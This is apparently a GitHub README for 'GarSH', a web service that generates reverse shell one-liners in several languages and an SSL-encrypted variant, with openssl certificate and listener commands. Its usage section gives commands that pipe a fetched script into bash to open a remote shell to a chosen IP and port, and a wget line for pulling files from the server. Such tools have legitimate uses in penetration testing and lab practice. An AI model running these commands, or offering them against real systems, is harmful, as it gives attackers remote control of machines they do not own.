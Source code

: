 # GarSH (Gimme a reverse Shell!).


Web application to generate reverse shell oneliners, based on https://www.npmjs.com/package/reverse-shell


### Reverse shells supported
#### Using basic netcat listener (/[host]/[port]):

- Python
- Perl
- nc
- bash
- nodejs
- ruby
- php


#### SSL Reverse shell (/ssl/[host]/[port]):

You will need openssl, socat or any other listener that supports SSL/TLS.

**Generate certs:**

`openssl req -new -newkey rsa:4096 -days 365 -nodes -x509 -subj "/C=NL/ST=null/L=null/O=null/CN=null" -keyout server.key -out server.cer`

**openssl listener:**

`openssl s_server -quiet -key server.key  -cert server.cer -port 8443`



### Usage
`curl http://yourhost/10.10.10.10/4444 | bash`

`curl http://yourhost/ssl/10.10.10.10/8443 | bash`


It will also serve files from ./files folder

`wget http://yourhost/files/somefile`